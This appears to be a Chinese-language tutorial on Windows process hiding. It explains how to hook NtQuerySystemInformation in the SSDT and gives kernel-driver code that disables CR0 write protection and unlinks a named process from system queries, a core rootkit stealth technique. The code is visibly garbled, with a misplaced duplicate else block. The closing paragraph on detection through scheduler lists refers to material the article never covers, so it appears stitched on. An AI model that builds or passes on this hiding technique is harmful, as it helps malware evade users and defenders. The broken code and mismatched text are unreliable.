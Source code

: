 # 进程隐藏
## 一、原理
##### Windows操作系统是一种分层的架构体系。应用层的程序是通过API来访问操作系统。而API又是通过ntdll里面的核心API来进行系统服务的查询。核心API通过对int 2e的切换，从用户模式转换到内核模式。2Eh中断的功能是通过NTOSKRNL.EXE的一个函数KiSystemService()来实现的。在你使用了一个系统调用时，必须首先装载要调用的函数索引号到EAX寄存器中。把指向参数区的指针被保存在EDX寄存器中。中断调用后，EAX寄存器保存了返回的结果。KiSystemService()是根据EAX的值来决定哪个函数将被调用。而系统在SSDT中维持了一个数组，专门用来索引特定的函数服务地址。在Windows 2000中有一个未公开的由ntoskrnl.exe导出的KeServiceDescriptorTable变量，我们可以通过它来完成对SSDT的访问与修改。KeServiceDescriptorTable对应于一个数据结构，定义如下：
typedef struct SystemServiceDescriptorTable
{
    UINT    *ServiceTableBase;
    UINT    *ServiceCounterTableBase;
    UINT    NumberOfService;
    UCHAR    *ParameterTableBase;
}SystemServiceDescriptorTable,*PSystemServiceDescriptorTable;
其中ServiceTableBase指向系统服务程序的地址(SSDT)，ParameterTableBase则指向SSPT中的参数地址，它们都包含了NumberOfService这么多个数组单元。在windows 2000 sp4中NumberOfService的数目是248个。
我们的任务管理器，是通过用户层的API来枚举当前的进程的。Ring3级枚举的方法：
" PSAPI
– EnumProcesses()
" ToolHelp32
– Process32First()
- Process32Next()
来对进程进行枚举。而她们最后都是通过NtQuerySystemInformation来进行查询的。所以我们只需要Hook掉NtQuerySystemInformation，把真实NtQuerySystemInformation返回的数进行添加或者是删改，就能有效的欺骗上层API。从而达到隐藏特定进程的目的。
## 二、核心实现
##### 
//系统服务表入口地址
extern PServiceDescriptorTableEntry KeServiceDescriptorTable;
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    ……
    __asm{
        mov eax, cr0
        mov CR0VALUE, eax
        and eax, 0fffeffffh //DisableWriteProtect
        mov cr0, eax
    }
    //取得原来ZwQuerySystemInformation的入口地址
RealZwQuerySystemInformation=(REALZWQUERYSYSTEMINFORMATION)(((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)] );
    //Hook
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)]=HookFunc;
    //EnableWriteProtect
    __asm
    {
        mov eax, CR0VALUE
        mov cr0, eax
    }
    ……
    return STATUS_SUCCESS;
}
VOID DriverUnload (IN PDRIVER_OBJECT pDriverObject)
{
    ……
    //UnHook恢复系统服务的原始入口地址
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)] = RealZwQuerySystemInformation;
    ……
}
NTSTATUS HookFunc(
        IN ULONG SystemInformationClass,
        IN PVOID SystemInformation,
        IN ULONG SystemInformationLength,
        OUT PULONG ReturnLength)
{
    NTSTATUS rc;
    struct _SYSTEM_PROCESSES *curr;
    // 保存上一个进程信息的指针
    struct _SYSTEM_PROCESSES *prev = NULL;
    //调用原函数
    rc = (RealZwQuerySystemInformation) (
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength, ReturnLength);
    if(NT_SUCCESS(rc))
    {
if(5 == SystemInformationClass)
//如果系统查询类型是SystemProcessesAndThreadsInformation
        {
            curr = (struct _SYSTEM_PROCESSES *)SystemInformation;
            //加第一个偏移量得到第一个system进程的信息首地址
            if(curr->NextEntryDelta)((char *)curr += curr->NextEntryDelta);
            while(curr)
            {
if(RtlCompareUnicodeString(&hide_process_name, &curr->ProcessName, 1) == 0)
                {
                    //找到要隐藏的进程
                    if(prev)
                    {
                        if(curr->NextEntryDelta)
                        {
                            //要删除的信息在中间
                            prev->NextEntryDelta += curr->NextEntryDelta;
                        }
                        else
                        {
                            //要删除的信息在末尾
                            prev->NextEntryDelta = 0;
                        }
                    }
        else
                        {
                            //要删除的信息在末尾
                            prev->NextEntryDelta = 0;
                        }
                    }
                    else
                    {
                        if(curr->NextEntryDelta)
                        {
                            //要删除的信息在开头
                            (char *)SystemInformation += curr->NextEntryDelta;
                        }
                        else
                        {
                            SystemInformation = NULL;
                        }
                    }
                    //如果链下一个还有其他的进程信息，指针往后移
                    if(curr->NextEntryDelta)
((char*)curr+=curr->NextEntryDelta);                    else
                    {
                        curr = NULL;
                        break;
                    }
                }
                if(curr != NULL)
                {
                    //把当前指针设置成前一个指针，当前指针后移
                    prev = curr;
                    if(curr->NextEntryDelta)
((char*)curr+=curr->NextEntryDelta);
                    else curr = NULL;
                }
            } // end while(curr)
        }
    }
    return rc;
}
通过IOCTL和Ring3级的应用程序通过DeviceIoControl（API）交互信息。Ring3级的用户程序使用,
DeviceIoControl(Handle,IOCTL_EVENT_MSG,ProcessName,ProcessNameLen,
NULL,0,& BytesReturned,NULL)来通知驱动程序要隐藏的进程的名字。
## 三、总结
##### 一般情况下我们是通过内核调试器得到那三条链表的内核地址，然后进行枚举。这就给隐藏者留下了机会，如上面所示。但是我们完全可以把上面那种隐藏进程检测出来。我们也通过在内核函数中取得硬编码的办法来分别取得他们的链表头的地址。如上面我们已经看见了 KiFindReadyThread+0x48+3出就是KiDispatcherReadyListHead的地址，如果用上面的绕过内核调度链表检测办法同时也去要修改KiFindReadyThread+0x48+3的值为新链表的头部地址。所以我们的检测系统完全可以从KiFindReadyThread+0x48+3（0x804313de）去取得KiDispatcherReadyListHead的值。同理KiWaitInListHead, KiWaitOutListhead也都到使用他们的相应的内核函数里面去取得地址。就算原地址被修改过，我们也能把修改过后的调度链表头给找出来。所以欺骗就不行了。
